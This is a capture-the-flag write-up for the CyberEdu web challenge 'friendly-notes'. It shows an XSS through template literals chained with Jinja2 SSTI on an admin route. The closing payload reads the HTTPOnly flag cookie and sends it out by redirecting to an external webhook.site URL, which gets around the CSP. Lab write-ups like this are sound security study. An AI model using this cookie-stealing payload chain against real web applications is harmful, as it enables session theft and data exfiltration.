





# Write-up: 
##  friendly-notes

**Category:** Web
**Platform:** CyberEdu
**URL:** `https://app.cyber-edu.co/challenges/9eeaf2ce-b3b2-4fb3-a115-fb2c15096fd1`

---

First I analyzed the files inside `public.7z` to see in much more detail how the remote server is processing my requests.

There are multiple layers of security protections:

-> `CSP` (Content Security Policy) : restricts script to a nonce and connections to `self`
-> `Jinja2 Auto-escaping` (|e) : escapes HTML characters like `< > ' " ` to prevent XSS
-> `HTTPOnly Cookie` : the flag is stored in a cookie that js cannot access directly
-> `DOMPurify` sanitizes HTML input

The first vuln lies here:



Insie `view_note.html`, the dev tried to sanitize the content using DOMPurify but made a mistake using the backticks. Those are `JavaSciprt Template Literals`.
Jinja2 filter escapes HTML but does not escape backticks or dollar sign.

If I send a note with `${alert(`tudor beloiu`)}`:

It worked!
The browser sees ${...} syntax and executes the js inside it before DOMPurify ever sanitizes it.

So we can't access the cookie directly since it s HTTPOnly... We have to make the server(run_bot) read the cookie for us.

In app.py there is a route accessible only for the admin:



The script is directly passing the testString to jinja2.template . This allows `SSTI` (Server Side Template Injection).
So this is a chained attack with XSS + SSTI.

Since we can access request object, we will get the cookie using `request.get_cookie("FLAG")`.

So we have all the ingredients. I will craft the payload step by step.


-> I will replace " or ' with backticks
-> I will use `fetch(/admin/test?test=ssti_get_flag)` (XSS to force the Bot s broswer to fetch this URL)
-> `{{request.get_cookie('FLAG')}}` but {} and ' can break the fetch URL parsing so I will use the encoded URL:
        `%7B%7Brequest.get_cookie(%27FLAG%27)%7D%7D`

-> `connect-src` restrict to self so I can't fetch to my webhook. Instead I will use `window.location`, another redirect to bypass the CSP
-> chain the payload but without lambda functions(ex (c => c.text()) ) because it' > is sanatized.
-> btoa() (binary to ascii to make the data URL safe bcs flag contains {})

Final payload: 

``` bash
${fetch(`/admin/test?test=%7B%7Brequest.get_cookie(%27FLAG%27)%7D%7D`).then(function(r){return r.text()}).then(function(t){window.location=`https://webhook.site/16a8dd6f-979f-4f23-850f-7a905ba51250?flag=${btoa(t)}`})}

```



There it is our b64 encoded flag!



